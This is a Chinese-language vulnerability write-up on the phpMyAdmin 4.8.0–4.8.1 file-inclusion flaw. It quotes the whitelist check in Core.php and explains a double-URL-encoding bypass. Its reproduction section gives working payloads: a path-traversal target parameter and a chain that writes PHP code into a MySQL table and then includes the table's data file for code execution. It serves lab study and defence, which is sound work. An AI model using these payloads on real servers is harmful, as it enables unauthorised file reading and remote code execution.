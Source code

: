 # 漏洞影响范围

phpMyAdmin 4.8.0和4.8.1

# 环境搭建

phpMyAdmin-4.8.1 [下载](https://www.oschina.net/action/GoToLink?url=https%3A%2F%2Ffiles.phpmyadmin.net%2FphpMyAdmin%2F4.8.1%2FphpMyAdmin-4.8.1-all-languages.zip)

解压到WWW目录

![image-20210812143015384](images/1.png)

登陆账号root,密码root

# 漏洞分析

index.php55-63行

![image-20210811234359907](images/2.png)

如果满足以下5个条件,即可执行包含文件代码`include $_REQUEST['target']`

```
1. $_REQUEST['target']不为空
2. $_REQUEST['target']是字符串
3. $_REQUEST['target']的开头不能是index
4. $_REQUEST['target']不在$target_blacklist中
5. Core::checkPageValidity($_REQUEST['target']为真
```

![image-20210812152735453](images/3.png)

跟进checkPageValidity()函数,定位到了Core.php443行

```
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

考虑到这个函数的返回值需要为真

从最上面开始看起,$whitelist = []符合第一个if循环的条件

会执行`$whitelist = self::$goto_whitelist`这串代码

跟进一下

```
public static $goto_whitelist = array(
        'db_datadict.php',
        'db_sql.php',
        'db_events.php',
        'db_export.php',
        'db_importdocsql.php',
        'db_multi_table_query.php',
        'db_structure.php',
        'db_import.php',
        'db_operations.php',
        'db_search.php',
        'db_routines.php',
        'export.php',
        'import.php',
        'index.php',
        'pdf_pages.php',
        'pdf_schema.php',
        'server_binlog.php',
        'server_collations.php',
        'server_databases.php',
        'server_engines.php',
        'server_export.php',
        'server_import.php',
        'server_privileges.php',
        'server_sql.php',
        'server_status.php',
        'server_status_advisor.php',
        'server_status_monitor.php',
        'server_status_queries.php',
        'server_status_variables.php',
        'server_variables.php',
        'sql.php',
        'tbl_addfield.php',
        'tbl_change.php',
        'tbl_create.php',
        'tbl_import.php',
        'tbl_indexes.php',
        'tbl_sql.php',
        'tbl_export.php',
        'tbl_operations.php',
        'tbl_structure.php',
        'tbl_relation.php',
        'tbl_replace.php',
        'tbl_row_action.php',
        'tbl_select.php',
        'tbl_zoom_select.php',
        'transformation_overview.php',
        'transformation_wrapper.php',
        'user_password.php',
    );
```

这是定义的一个静态数组,也是一个白名单

继续往下看

![image-20210812151850509](images/4.png)

第二个if循环如果不存在$page或者不是字符串的话就会返回false

第三个if要求$page必须要在白名单内,但是考虑到`$page`可能会带有参数,所以有了后面的判断

继续往下看

![image-20210812153242831](images/5.png)

`mb_strpos`：是一个定位函数，获取指定的字符在一个字符串中首次出现的位置，这里也就是$page中问号第一次出现的位置

`mb_substr`：截取指定字符串中某一段，这里从0开始截取，也就是从最开始

`$_page`的值是$page和?之间的部分

我们可以利用这urldecode来绕过白名单的检测

`target=db_datadict.php%253f`服务器会自动进行一次url解码`target=db_datadict.php%3f`

这里的urldecode会把他解码为`target=db_datadict.php?`通过截取的函数来实现对白名单的绕过

但是此时在index.php的还是`target=db_datadict.php%3f`,然后再对其进行文件包含

## 漏洞复现

目录穿越读取文件

```
?target=db_datadict.php%253f../../../phpinfo.php
```

![image-20210812155422943](images/6.png)

### 任意代码执行：

- 查询数据库路径：

  `show global variables like "%datadir%";`

  ![image-20210812155822150](images/7.png)

- 向数据库写入代码：

  ```sql
  CREATE DATABASE rce;
  use rce;
  CREATE TABLE rce(code varchar(100));
  INSERT INTO rce(code) VALUES("<?php phpinfo(); ?>");
  ```

  ![image-20210812155905767](images/8.png)

- 包含该数据库文件：

  ```
  ?target=db_datadict.php%253f/../../../../../../../../../phpstudy_pro/Extensions/MySQL5.7.26/data/rce/rce.MYD
  ```

![image-20210812160723364](images/9.png)



参考链接

https://xz.aliyun.com/t/6592
